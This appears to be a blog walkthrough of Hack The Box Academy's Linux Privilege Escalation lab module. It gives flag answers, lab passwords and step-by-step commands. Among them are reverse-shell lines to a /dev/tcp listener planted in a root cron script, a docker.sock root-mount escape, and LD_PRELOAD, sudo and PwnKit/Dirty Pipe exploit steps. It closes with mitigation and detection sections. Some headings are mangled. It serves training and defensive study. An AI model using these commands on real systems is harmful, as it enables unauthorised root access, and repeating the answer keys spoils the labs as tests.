







Welcome to **Part 5** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Linux Privilege Escalation** (Tier II • Easy • Offensive). We break down the underlying mechanics of local Linux privilege escalation tradecraft, SUID/SGID binary exploitation, Linux capabilities, cron job hijacking, vulnerable system services, Docker container escapes, and kernel exploitation, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-4-footprinting/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 4: Footprinting External Infrastructure & Services</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 5 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-6-login-brute-forcing/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 6: Login Brute Forcing with Hydra & Wordlists</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Linux Privilege Escalation` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/51](https://academy.hackthebox.com/module/51) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 5 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **SUID/SGID Abuse**: Scans the filesystem for binaries with setuid permissions and cross-references them against GTFOBins to spawn root shells.
* **Linux Capabilities Exploitation**: Inspects process capabilities (`getcap -r /`) and weaponizes `cap_setuid` to elevate permissions without traditional SUID flags.
* **Cron & Timer Hijacking**: Exploits unquoted paths, writeable scripts, and wildcard expansions in automated cron tasks executed by UID 0.
* **Environment Variable Hijacking**: Manipulates `LD_PRELOAD`, `LD_LIBRARY_PATH`, and `PATH` variable resolution within sudoer execution blocks.
* **Container & Kernel Exploitation**: Identifies container breakouts via writeable Docker sockets (`/var/run/docker.sock`) and analyzes CVE exploits such as PwnKit and Dirty Pipe.

## Executive Summary & Assessment Scope

Attaining initial shell access on a Linux server typically grants privileges restricted to unprivileged service accounts (`www-data`, `nobody`). Transforming this foothold into unrestricted root access requires a methodical audit of host configurations, system binaries, scheduled tasks, and the kernel boundary.

This module delivers a battle-tested playbook for Linux local privilege escalation. We analyze automated enumeration scripts (LinPEAS), dissect manual inspection commands, exploit file permissions, abuse sudo rules, and escape virtualized containers, validating every exercise with full flag captures.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Linux Privileges Escalation

> **Lab Question (Page 1)**: Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer .
>
> **Flag / Answer**: `HTB{1nt3rn4l_5cr1p7_l34k}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
grep -r 'HTB{' / 2>/dev/null
```
(-r: research recursively)

Linux Services & Internals Enumeration
Question: What is the latest Python version that is installed on the target?
Answer: 3.11
Command: apt list --installed | grep python

Credential Hunting
Question: Find the WordPress database password.
Answer: W0rdpr3ss_sekur1ty!
Command: find / -type f -name 'wp-config.php' -exec grep -E
'DB_USER|DB_PASSWORD' {} + 2>/dev/null


### Environment-based Privilege Escalation

> **Lab Question (Page 2)**: Review the PATH of the htb-student user . What non-default directory is part of the user's PATH?
>
> **Flag / Answer**: `/tmp`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
echo $PATH | awk -F':' '{print $NF}'
```

Escaping Restricted Shells:
Question: Use different approaches to escape the restricted shell and read the
flag.txt file. Submit the contents as the answer .
Answer: HTB{35c4p3_7h3_r3stricted_5h311}
Command: echo "$(<flag.txt )"
(the purpose is to use echo which is available in this restricted shell to replace
```bash
cat – echo the output of flag.txt)
```


### Permissions-based Privilege Escalation

> **Lab Question (Page 3)**: Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).
>
> **Flag / Answer**: `/bin/sed`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

step 1. Copy the content of the section command output to file
called current.txt.
Step 2. Run 'find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null | grep -
vF -f <(awk '{print $9}' current.txt) | awk '{print $9}''

Question: Find a file with the setuid bit set that was not shown in the section
command output (full path to the binary).
Answer: /usr/bin/facter
Command: find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
This time as there was single option on original output, so take the other one.

```bash
Sudo Rights Abuse:
```
Question: What command can the htb-student user run as root?
Answer: /usr/bin/openssl
Command: sudo -l

Privileged Groups:
Question: Use the privileged group rights of the secaudit user to locate a flag
Answer: ch3ck_th0se_gr0uP_m3mb3erSh1Ps!
Command: 1. 'id' to see what groups the user is member of.
2. observe the user is in group 'adm' that can access to /var/log.
3. run 'find /var/log -type f 2>/dev/null -exec grep "flag" {} \;'


### Capabilities

> **Lab Question (Page 4)**: Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.
>
> **Flag / Answer**: `HTB{c4paBili7i3s_pR1v35c}`
{: .prompt-info }


### Service-based Privilege Escalation

> **Lab Question (Page 5)**: Connect to the target system and escalate privileges using the Screen exploit. Submit the flag.txt file in the /root/screen_exploit directory.
>
> **Flag / Answer**: `91927dad55ffd22825660da88f2f92e0`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: copy the bash script on page to the machine
(create screen_exploit.sh file, transfer the script content into it via vim)
Step 2: add execute permission (chmod +x screen_exploit.sh)
Step 3: run the exploit, it will open elevated shell
Step 4: obtain the flag with 'cat /root/screen_exploit/flag.txt'
Link to the script can be found here.

Cron Job Abuse:
Question: Connect to the target system and escalate privileges by abusing the
misconfigured cron job. Submit the contents of the flag.txt file in the
/root/cron_abuse directory.
Answer: 14347a2c977eb84508d3d50691a7ac4b
Command: Step 1: search for writeable files for 'others' group with the
command: 'find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null'
Step 2: observe on result the file '/dmz-backups/backup.sh' . when we look at
the directory that containing the file – we observe that some file is being
generated every 2 minutes.
Step 3: we modify the 'backup.sh' file (as we can because we have writing
permissions) – we add the line: 'bash -i >& /dev/tcp/127.0.0.1/4433 0>&1'
That will run reverse shell on localhost, port 4433.
Step 4: we run nc -lnvp 4433 and wait for shell to appear.
As the 'backup.sh' runs on root crontab, its permissions are elevated (of root),
So, the reverse shell granted will have root privileges.


### Containers

> **Lab Question (Page 6)**: Escalate the privileges and submit the contents of flag.txt as the answer .
>
> **Flag / Answer**: `HTB{C0nT41n3rs_uhhh}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: check the user is on either 'lxc' or 'lxd' with 'id' command.
Step 2: go to container Image directory, then run: 'lxc image import
image_name.tar .gz --alias ubuntutemp' to import the image
Step 3: confirm image imported with 'lxc image list'
Step 4: initialize the container with the image with elevated privilges the
command: 'lxc init ubuntutemp privesc -c security.privileged=true'.
Step 5: add the device with the command 'lxc config device add privesc host-
root disk source=/ path=/mnt/root recursive=true'
Step 6: start the container with the command: 'lxc start privesc'
Step 7: execute a shell within the container: 'lxc exec privesc /bin/sh'
Step 8: after confirming the user is root within the shell with 'whoami' , run
'find / -type f -name flag.txt 2>/dev/null -exec cat {} \;' to extract the flag.

Docker:
Question: Escalate the privileges on the target and obtain the flag.txt in the
root directory. Submit the contents as the answer .
Answer: HTB{D0ck3r_Pr1vE5c}
Command: Step 1: run 'docker image ls' to observer existing docker images.
Step 2: run 'docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu
chroot /mnt bash' – this will start new container based on 'ubuntu' image, it
will mount the machine root directory ('/') to the docker as shared volume, and
start shell ('chroot /mnt bash')
Step 3: extract the flag from /root/flag.txt
*The docker has elevated privileges so through it non-privileged user can
access privileged data within the machine via shared volume.


### Logrotate

> **Lab Question (Page 7)**: Escalate the privileges and submit the contents of flag.txt as the answer .
>
> **Flag / Answer**: `HTB{l0G_r0t7t73N_00ps}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

3 ssh terminals were required for that:
The first one is to download and run the logrotter, and second is to have nc
listen (localhost, for me the external pwnbox didn't work), and the third one is
to actively refresh the access.log.
Step 1: on terminal 1 – download the logrotter (in my case the github clone
didn't work so I copied some files manually) from here.
Step 2: craft the payload with this command: 'echo 'bash -i >&
/dev/tcp/127.0.0.1/9001 0>&1' > payload' on terminal 1.
Step 3: compile the logrotter  with the command : 'gcc logrotten.c -o logrotten'
and run it with this command: './logrotten/logrotten -p ./payload /home/htb-
student/backups/access.log'
Step 4: run nc listener on terminal 2 with this command: 'nc -lnvp 9001'
Step 5: refresh the access.log content several times with this command 'echo
message > ./backups/access.log' on terminal 3.
Step 6: the refreshing will make the payload to be written and the root shell to
be opened on terminal 2, then we cat the flag from /root/flag.txt.

Miscellaneous Techniques:
Question: Review the NFS server's export list and find a directory holding a
flag.
Answer: fc8c065b9384beaa162afe436a694acf
Command: Step 1: on pwnbox machine run 'showmount -e <target ip>'.
Step 2: inspect the paths displayed on target machine with 'ls' and 'cat'.


### Linux Internals-based Privilege Escalation

> **Lab Question (Page 8)**: Escalate privileges using the same Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel_exploit directory.
>
> **Flag / Answer**: `46237b8aa523bc7e0365de09c0c0164f`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: check for kernel version ('uname -r') and for distribution
version ('cat /etc/release') in order what vulnerabilities there are in these
versions, for in this purpose the kernel version in the target machine is '4.4.0-
116-generic' and the distribution version is ubuntu 16.04.
Step 2: get from here the exploit to kernel 4.4.0.116/ubuntu 16.04.4, and paste
it in the target machine under the name 'kernel exploit.c'.
Step 3: compile it with the command 'gcc kernel_exploit.c -o kernel_exploit &&
```bash
chmod +x kernel_exploit'
Step 4: run it with './kernel_exploit' and get root shell.
```

Shared Libraries:
Question: Escalate privileges using LD_PRELOAD technique. Submit the
contents of the flag.txt file in the /root/ld_preload directory.
Answer: 6a9c151a599135618b8f09adc78ab5f1
Command: step 1: run 'sudo -l' to see what binaries you as user can run with
```bash
sudo (In challenge case is /usr/bin/openssl)
```
Step 2: create root.c file and add the code here to it.
Step 3: compile root.c with this command: 'gcc -fPIC -shared -o root.so root.c -
nostartfiles'
Step 4: run 'realpath root.so' to get root.so full path.
Step 5: run 'sudo LD_PRELOAD=/home/htb-student/root.so /usr/bin/openssl
restart' to gain root shell where the first path is the realpath from step 4 and
the second path is the path the user has sudo access to from step 1.
Step 6: now we have root shell and we can extract the flag.


### Shared Object Hijacking

> **Lab Question (Page 9)**: Follow the examples in this section to escalate privileges, recreate all examples (don't just run the payroll binary). Practice using ldd and readelf. Submit the version of glibc (i.e. 2.30) in use to move on to the next section.
>
> **Flag / Answer**: `2.23`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

ldd --version

```bash
Python Library Hijacking:
Questions: Follow along with the examples in this section to escalate
```
privileges. Try to practice hijacking python libraries through the various
methods discussed. Submit the contents of flag.txt under the root user as the
answer .
Answer: HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}
Command: step 1: run 'sudo -l' to see what binaries we can run with sudo, we
can observer we can run '/usr/bin/python3' and '/home/htb-
student/mem_status.py'.
Step 2: run 'cat /home/htb-student/mem_status.py' – it's a simple script that
prints available memory:

It can be observed that the script uses the 'virtual_memory' method of 'psutil'
library.
Step 3: run 'grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-
packages/psutil/*' to see what files contain 'virtual_memory' method.
Step 4: take the psutil __init__ file invoke and run 'ls -l'
On it to see if we have write permission.
Step 5: vim the file, search for 'virtual_memory' (with typing /virtual_memory,
then press Enter, then press 'n' to skip forward to next occurrence until we find


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


### Recent 0-Days

> **Lab Question (Page 10)**: Escalate the privileges and submit the contents of flag.txt as the answer .
>
> **Flag / Answer**: `HTB{SuD0_e5c4l47i0n_1id}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: run 'sudo -l' to see what binaries you can run with sudo.
You will notice that the binary that you can run is '/bin/ncdu' – an interactive
disk usage tool.
Step 2: run 'sudo -u#-1 /bin/ncdu cd /root' to run ncdu on /root with sudo
privileges. The '-1' value exploiting bug in sudo explained here (works up to
version 1.8.28, not including).
Step 3: on ncdu window – press 'b' to open shell (root shell).
Step 4: cat the flag.

Polkit:
Question: Escalate the privileges and submit the contents of flag.txt as the
answer .
Answer: HTB{p0Lk1tt3n}
Command: Step 1: download the exploit code from here.
Step 2: compile the c code with 'gcc cve-2021-4034-poc.c -o poc'
Step 3: run './poc' to gain root shell.


### Capstone: Skills Assessment

> **Lab Question (Page 11)**: Escalate the privileges and submit the contents of flag.txt as the answer .
>
> **Flag / Answer**: `HTB{D1rTy_DiR7Y}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: Download (or clone) the exploit to the target machine from
here.
Step 2: compile with the command 'bash compile.sh'
Step 3: run  './exploit-1' to get root shell.
Or run 'find / -perm -4000 2>/dev/null'to get binaries with SUID binaries, and
then run './exploit-2 /usr/bin/{bi}' where {bi} is any binary from the result of
the find command, for example: 'usr/bin/sudo'.
More details about the exploits are in here. Works on kernel 5.8-5.17.

Final Test – Skill assessment:
Linux Local Privilege Escalation - Skills Assessment:
Question: Submit the contents of flag1.txt
Answer: LLPE{d0n_ov3rl00k_h1dden_f1les!}
Command: 'cat .config/.flag1.txt' (hidden file)


### Step 3: run 'cat /home/barry/.bash_history'

> **Lab Question (Page 12)**: Submit the contents of flag2.txt
>
> **Flag / Answer**: `LLPE{ch3ck_th0se_cmd_l1nes!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: run 'find / -type f -name "*flag2.txt" 2>/dev/null' to locate
possible location of flag2.txt. the result is the path '/home/barry/flag2.txt' –
meaning the flag2 is owned by the user barry.
Step 2: run 'find / -user barry -exec ls -ldb {} \; 2>/dev/null' to display every file
or directory under the ownership of the user barry. The file '.bash_histroy' in
the results is open for reading by everyone

Step 3: run 'cat /home/barry/.bash_history':

We can observe that barry set for ssh server the password 'i_l0ve_s3cur1ty!'.
So maybe he used the same password for his user in the machine...
Step 4: run 'su – barry', then – enter the mentioned password. The password
works.
Step 5: cat the flag from '/home/barry/flag2.txt'.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### what group barry is member of

> **Lab Question (Page 13)**: Submit the contents of flag3.txt
>
> **Flag / Answer**: `LLPE{h3y_l00k_a_fl@g!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: run 'find / -type f -name "*flag3.txt" 2>/dev/null' to locate
possible location of flag3.txt. the result is the path '/var/log/flag3.txt'. running
'ls -l' on the file shows that the file is inaccessible for others, so we are unable
to access it from our own user (htb-student), but it is accessible for file group
members – adm.
Step 2: as our own user is incapable of accessing the flag, we w ill check our
newly acquired user, barry, privileges. We log in into barry's user with the
method used in flag 2, then on barry user we run 'id' command to check to
what group barry is member of:

Barry is indeed member of the required adm group, so we can cat the flag.
Step 3: cat the flag with cat /var/log/flag3.txt from barry user.


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


### the port, and see where users cradentials are stored

> **Lab Question (Page 14)**: Submit the contents of flag4.txt
>
> **Flag / Answer**: `LLPE{im_th3_m@nag3r_n0w}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: running the same search procedure on flag4.txt reveals its
location is '/var/lib/tomcat9/flag4.txt' , and running 'ls -l' on it reveals that only
the user 'tomcat' may read the file. There are no group or other permissions.
Step 2: the location of the file implies it is within the directory of 'tomcat 9'
service, which according to 'nmap -sV'  check – running on port 8080:
So I open the browser and open the website hosted on the target machine on
the port, and see where users cradentials are stored:

Step 3: run 'cat' on path will get permission deny, however 'ls -l' the directory
which contains the file reveals it has a .bak (backup) file with read permissions:

Step 4: cat that file:

And we have username and password of admin of the service
*Alternative approach to obtain the cradentials is to search throughout the
machine with the command: 'find / -type f \( -name "*.conf" -o -name "*.bak" -
o -name "*.config" -o -name "*.xml" -o -name "config*" \) -exec grep -H -i
'password' {} \; 2>/dev/null | grep tomcat9'. It scans for passwords that contain
the word 'tomcat9' throughout configuration and backup files within the
machine. However it is more messy..
Step 5: to proceed in here I resorted to a tool called 'Metasploit', full guides
how to proceed the challenge with the tools are in here on pwnbox.
Following the instructions will obtain us a shell of tomcat9, exploiting
vulnerability within tomcat9 service.


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### sudo permissions for '/usr/bin/busctl'

> **Lab Question (Page 15)**: Submit the contents of flag5.txt
>
> **Flag / Answer**: `LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Step 1: login to 'tomcat' with the steps use to obtain flag4.
Running the usual search on flag5.txt like the previous flags wont show any
results, implying the flag is located under root privileged directory. So we will
require root privileges to access to those.
Step 2: on tomcat's user – run 'python3 -c 'import pty; pty.spawn("/bin/bash")''
To get proper bash shell.
Step 3: run 'sudo -l' to see sudo permissions of tomcat. We will find he has
```bash
sudo permissions for '/usr/bin/busctl':
```

Step 4: we can exploit the busctl to gain root shell:
```bash
Run 'sudo busctl --show-machine' and then run '!/bin/bash' (or '!/bin/sh').
```
Now we have root shell, exploiting the sudo privileges in busctl.
Step 5: find where the flag is located with 'find / -type f -name "flag5.txt"
2>/dev/null', the result of which is '/root/flag5.txt'
Step 6: cat the flag.


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1548.001, T1053.003, T1543.002, T1068` |
| **Common Weakness Enumerations** | `CWE-269, CWE-732, CWE-276` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1548.001`](https://attack.mitre.org/techniques/T1548/) | **Abuse Elevation Control Mechanism: Setuid and Setgid** | `Privilege Escalation` | Exploiting misconfigured SUID binaries |
| [`T1053.003`](https://attack.mitre.org/techniques/T1053/) | **Scheduled Task/Job: Cron** | `Privilege Escalation` | Hijacking root cron jobs through writeable scripts or wildcards |
| [`T1543.002`](https://attack.mitre.org/techniques/T1543/) | **Create or Modify System Process: systemd Service** | `Privilege Escalation` | Misconfigured service unit files with root privileges |
| [`T1068`](https://attack.mitre.org/techniques/T1068/) | **Exploitation for Privilege Escalation** | `Privilege Escalation` | Kernel exploitation (e.g., Dirty Pipe, Dirty Cow, PwnKit) |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-269`: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [`CWE-732`: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [`CWE-276`: Incorrect Default Permissions](https://cwe.mitre.org/data/definitions/276.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Linux Auditd: Monitor `execve` calls where EUID is 0 but RUID is unprivileged.
- Enforce file integrity monitoring (FIM) over `/etc/crontab`, `/etc/cron.*`, and `/etc/sudoers`.
- Audit system binaries with `find / -perm -4000 -type f 2>/dev/null` and flag unknown SUID executables.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Linux Privilege Escalation](https://academy.hackthebox.com/module/51) — *Official Hack The Box curriculum track*
- [GTFOBins: Unix SUID / Sudo Reference](https://gtfobins.github.io/) — *Authoritative repository for Unix binary abuse*
- [HackTricks: Linux Local Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) — *Complete Linux post-exploitation methodology*
- [PayloadsAllTheThings: Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation) — *Practical privilege escalation commands*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-4-footprinting/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 4: Footprinting External Infrastructure & Services</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 5 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-6-login-brute-forcing/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 6: Login Brute Forcing with Hydra & Wordlists</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
